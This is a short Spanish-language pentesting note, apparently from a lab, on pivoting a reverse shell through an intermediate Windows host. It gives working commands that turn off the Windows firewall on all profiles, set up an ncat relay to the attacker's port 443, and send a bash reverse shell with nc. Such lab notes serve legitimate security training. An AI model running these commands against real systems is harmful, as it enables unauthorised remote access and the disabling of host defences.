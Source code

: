 #pivoting 
En windows, en vez de usar socat podemos usar ncat para permitir el tráfico de una reverse shell por parte de una máquina 3 pasando por una máquina windows intermedia. Por ejemplo, desde el Kali nos ponemos a la escucha:
![[Pasted image 20240615203300.png]]

A continuación, en la máquina intermedia podemos desactivar el firewall para evitar tener problemas:
```bash
netsh advfirewall set allprofiles state off
```

![[Pasted image 20240615203306.png]]

Ahora desde la máquina Windows intermedia decimos que todo el tráfico que recibamos por ejemplo por el puerto 1111 lo vamos a enviar al puerto 443 de la máquina atacante:
```bash
ncat -l -p 1111 -c "ncat 192.168.0.20 443"
```

![[Pasted image 20240615203310.png]]

Entonces ahora desde la máquina 3 enviamos la reverse shell a la máquina windows 7 intermedia por el puerto 1111 y deberíamos de recibir la conexión en nuestro Kali:
```bash
nc -c bash 10.10.10.129 1111
```

![[Pasted image 20240615203316.png]]

Y recibimos la conexión:

![[Pasted image 20240615203319.png]]